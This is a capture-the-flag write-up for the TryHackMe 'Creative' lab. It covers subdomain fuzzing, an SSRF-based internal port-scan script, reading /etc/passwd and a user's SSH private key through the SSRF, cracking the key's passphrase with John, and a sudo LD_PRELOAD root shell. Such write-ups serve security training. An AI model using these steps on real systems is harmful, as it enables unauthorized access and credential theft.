# Creative

[https://tryhackme.com/room/creative](https://tryhackme.com/room/creative)

## Recon & Enumeration 
The Nmap scan is performed as the first step to identify open ports. Based on the screenshot, `port 22` and `port 80` are opened on this machine.



By looking at the traceroute, we can determine the domain name associated with the IP address, which is `creative.thm`.



Next, configure the `/etc/hosts` file by adding the machine’s IP address and domain name so that we can access the website.



Now, navigate to `http://creative.thm/`, and you will see the organization's website. However, after exploring the entire site, there is no meaningful information that can be exploited.


I attempted to use Gobuster to discover other directories on the website. `/assets` is one of the directories found. However, when I try to access it, the website displays a `Forbidden` message.



Then, I tried using `ffuf` to enumerate the subdomains. By entering this command:
```
ffuf -u http://creative.thm/ -H "Host:FUZZ.creative.thm" -w /usr/share/SecLists-master/Discovery/DNS/subdomains-top1million-5000.txt -fw 1
```
only `beta` returned a response with status code `200`.




Add `beta.creative.thm` in the `/etc/hosts` file to enable us access the webpage using this subdomain. 



## Exploitation

Insert the URL in the address bar. As you can see from the screenshot below, this webpage is a URL tester to see if the URL is alive. 



Try entering `http://localhost/` to test the functionality. 



The results showed that the website is able to return the HTML file for `creative.thm`.



Therefore, we can try `http://localhost:port` to check if there are any other HTTP services that are not accessible from outside. To speed up the checking process, we can use a custom python script stated below:

```Python
import requests
import urllib.parse
from concurrent.futures import ThreadPoolExecutor

def send_post_request(url, payload, headers):
    try:
        response = requests.post(url, data=payload, headers=headers)
        content_length = response.headers.get('Content-Length')
        if content_length != '13':  # Check if content length isn't 13
            print(f"POST request to {url} with payload {payload} returned status code: {response.status_code}, content length: {content_length}")
    except requests.exceptions.RequestException as e:
        print(f"Error sending POST request: {e}")

def main():
    base_url = "http://beta.creative.thm"
    headers = {
        "Host": "beta.creative.thm",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate, br",
        "Content-Type": "application/x-www-form-urlencoded",
        "Origin": "http://beta.creative.thm",
        "Connection": "close",
        "Referer": "http://beta.creative.thm/",
        "Upgrade-Insecure-Requests": "1"
    }

    # Using ThreadPoolExecutor to run 20 threads concurrently
    with ThreadPoolExecutor(max_workers=20) as executor:
        for port_number in range(1, 65536):
            url = f"http://localhost:{port_number}"
            payload = f"url=http%3A%2F%2Flocalhost%3A{port_number}"
            executor.submit(send_post_request, base_url, payload, headers)

if __name__ == "__main__":
    main()
```

This Python script will loop through every port number, from 1 to 65535, by sending POST requests to `http://beta.creative.thm`. If the response does not have a content length of 13, the script will print out that response, as a content length of 13 is returned when the server cannot connect.



After running the script, we can see that port 80 returns a different content-length, which is as expected. The results also show that port 1337 returns a content-length other than 13.



Try entering `http://localhost:1337/` and click submit. The website directs us to a page that displays the directory listing of the machine, where we can see the list of directories in its file system.




Therefore, we can type `http://localhost:1337/etc/passwd` to check for any available users. 



## SSH Key Extraction & Login

According to the screenshot below, there is a user named `saad` with UID 1000. To access the machine, we can try to find Saad’s SSH key and use it to login via SSH. 



By entering `http://localhost:1337/home/saad/.ssh/id_rsa` into the input field, we can view Saad's SSH key. Right-click on the web page and select `View Page Source` to copy the entire key.



Next, save the key to our machine. We also need to change the file permissions using `chmod 600`, where '6' represents read and write permissions for the owner, and the two '0's represent no permissions for the group and others. Then, try to log in via SSH. Unfortunately, the key is protected with a passphrase.



We can try using `John` to crack the passphrase. The key needs to be converted into a hash that John can understand. In this case, run `ssh2john id_rsa > johnid` to convert the key.



Next, try to crack it using the rockyou.txt wordlist. I used the command: 
```
john --wordlist=/usr/share/wordlists/rockyou.txt johnid
```
to crack the passphrase. The screenshot below shows that the cracking process was successful.



After obtaining the passphrase for the key, we can now log in.



We are able to view the user’s flag at `/home/saad/user.txt`. 



## Privilege Escalation
To begin, use `sudo -l` to list the commands that this user is allowed to run with `sudo`. Based on the screenshot below, we do not have permission to access it without Saad's password. I also tried using the same password as the key's passphrase, but it failed as well. 



To search for passwords, we can check the history files. Use `cat .bash_history` to see if any passwords are stored in this file. We found a password inside this file.



Now, run `sudo -l` using this password. We can see that Saad can run 'ping' as root. However, this command is not particularly useful for escalating our privileges. But from here, we notice the `LD_PRELOAD` variable. 

> [!NOTE]
> According to ChatGPT, LD_PRELOAD is an environment variable in Unix-like operating systems (such as Linux and macOS) that specifies shared libraries to be loaded before any others when a program is executed. It allows you to inject custom libraries into the program's execution, overriding the default ones, without modifying the program's source code or recompiling it.



Hence, we can create a `shell.c` file in `/tmp` first. 



By using this code, we can escalate our privileges to root because the program calls `setuid(0)` and `setgid(0)`, which change the process's identity to that of the root user. Furthermore, the code calls `system("/bin/sh")`, which spawns a new shell. Since the process is now running as root, the shell will have root privileges.

Next, we compile the code with `gcc` and specify that this is a shared library. A few warning messages came up but we can just ignore them. 



Now, try to run `sudo LD_PRELOAD=/tmp/shell.so ping`. The library will be loaded before executing ping. Since we are running this with sudo, we should be able to obtain a root shell.



Navigate to `/root` and we can view the root’s flag in `root.txt`.

